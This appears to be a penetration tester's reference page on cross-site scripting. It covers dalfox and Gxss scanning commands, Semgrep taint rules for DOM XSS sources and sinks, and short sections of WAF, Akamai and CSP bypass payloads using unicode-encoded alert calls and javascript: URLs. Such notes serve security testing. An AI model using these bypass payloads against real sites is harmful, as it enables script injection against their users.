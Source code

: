 +++
title = 'XSS'
+++

```
# https://github.com/hahwul/dalfox
dalfox url http://example.com
cat urls | dalfox pipe -  --skip-bav --skip-mining-all
```

Find reflected parameters that could lead to XSS with Gxss

```
# https://github.com/KathanP19/Gxss
cat list | Gxss -c 100 -p REPLACE_STRING
```

## Semgrep

Semgrep can be used to detect sink and sources and assist in XSS detection.

### Usage

Download javascript files and beautify them (See [Javascript](https://caon.io/docs/exploitation/javascriptfiles/#download)), then run semgrep with

```
semgrep -c xss.yaml scripts/*
```

{{< hint danger >}} **Hold down!**

Javascript files must be beautified, otherwise semgrep will no work properly. {{< /hint >}}

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    pattern-either:
      - pattern: document.location.search = ...
      - pattern: document.location.hash = ...
      - pattern: document.location.pathname = ...
      - pattern: window.location.search = ...
      - pattern: window.location.hash = ...
      - pattern: window.location.pathname = ...
      - pattern: document.URL = ...
      - pattern: document.documentURI = ...
      - pattern: document.baseURI = ...
      - pattern: document.cookie = ...
      - pattern: document.referrer = ...
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    mode: taint
    pattern-sources:
      - pattern: document.location.search
      - pattern: document.location.hash
      - pattern: document.location.pathname
      - pattern: document.location.href
      - pattern: document.location
      - pattern: window.location
      - pattern: window.location.href
      - pattern: window.location.search
      - pattern: window.location.hash
      - pattern: window.location.pathname
      - pattern: document.URL
      - pattern: document.documentURI
      - pattern: document.baseURI
      - pattern: document.cookie
      - pattern: document.referrer
    pattern-sinks:
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

## Markdown

Markdown parsers can lead to XSS

- https://swarm.ptsecurity.com/fuzzing-for-xss-via-nested-parsers-condition/

## Bypass

Try to encode characters with unicode to achieve WAF bypass

alert(1) would become ale\u{72}t(1\x29, where

\u{72} is unicode to r
\x29 is unicode to )

## Akamai Bypass

Sometimes works:

```
"><a/\test="%26quot"href=%27javascript:/**/;\ale\u{72}t(11111\x29");%27>Click
"><a/\test="%26quot;x%26quot;"href=%27javascript:/**/;location.assign("google.com")%27>Click</a>
```

## Enconding

- https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters

## CSP Bypass

If the site has google whitelisted, the following could be used:

```
www.google.com/complete/search?client=chrome&q=1&jsonp=alert(1)//
accounts.google.com/o/oauth2/revoke?callback=alert(1)
```

- https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/

## Safari

```
javascript://trusted.example.com/%0Aalert()
```

# Cool resources

| URL | Description |
| --- | --- |
| https://xss.pwnfunction.com/ | pwnfunction XSS game |
| https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms | Bypass Mechanisms | 
| https://htmlparse.hackaplaneten.se/ | Parser Issues |
| http://domloggerpp-workshop.mizu.re:5173/ | DOM XSS Labs |
